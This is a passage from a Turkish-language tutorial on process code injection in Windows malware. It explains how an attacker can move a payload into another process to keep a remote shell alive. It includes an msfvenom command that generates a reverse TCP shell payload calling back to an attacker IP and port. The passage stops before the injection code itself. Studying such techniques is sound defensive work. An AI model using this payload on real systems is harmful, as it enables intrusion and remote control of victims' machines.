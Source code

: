 \newpage
\subsection{4. klasik kod enjeksiyonu i̇şlemine: basit c++ zararlı yazılım}\label{4. klasik kod enjeksiyonu i̇şlemine: basit c++ zararlı yazılım}    

﷽

![code injection](./images/6/2021-09-18_20-00.png){width="75%"}

Kod enjeksiyonu hakkında konuşalım. Kod enjeksiyonu nedir ve neden yaparız?    

Kod enjeksiyonu tekniği, bir işlemin (bizim durumumuzda zararlı yazılımımız), başka bir çalışan sürece kod enjekte etmesi yöntemidir.   

Örneğin, elinizde bir zararlı yazılım var. Bu, bir phishing saldırısından gelen bir dropper veya hedefinize ulaştırmayı başardığınız bir trojan olabilir ya da kodunuzu çalıştıran herhangi bir şey olabilir. Ve bir sebeplerden dolayı payload'ı başka bir işlemde çalıştırmak istemiş olabilirsiniz.Bu ne anlama geliyor?Bu yazıda amacımız bir trojan yaratmak değil,mesela diyelim payload’ınız bir `word.exe` dosyasının içinde çalıştırılabilir ama bunun da çalışma zamanı kısıtlı oluyor. Diyelim ki uzaktan bir shell elde ettiniz, ancak kurbanınız `word.exe`'yi kapattı. Bu durumda, oturumunuzu korumak istiyorsanız başka bir sürece geçmeniz gerekir.     

Bu yazıda, Debugging API kullanarak payload enjeksiyonu yapan klasik bir tekniği tartışacağız.    

İlk önce payload’ımızı hazırlamış olalım. Basitlik açısından, Kali Linux'tan `msfvenom` ters kabuk yükü kullanacağız.      

Saldırganın makinsesinde çalıştır:
```bash
msfvenom -p windows/x64/shell_reverse_tcp 
LHOST=10.9.1.6 LPORT=4444 -f c
```

Burda `10.9.1.6` saldırgan makinesinin adresi, `4444` ise sonra dinleyeceğimiz port oluyor.    

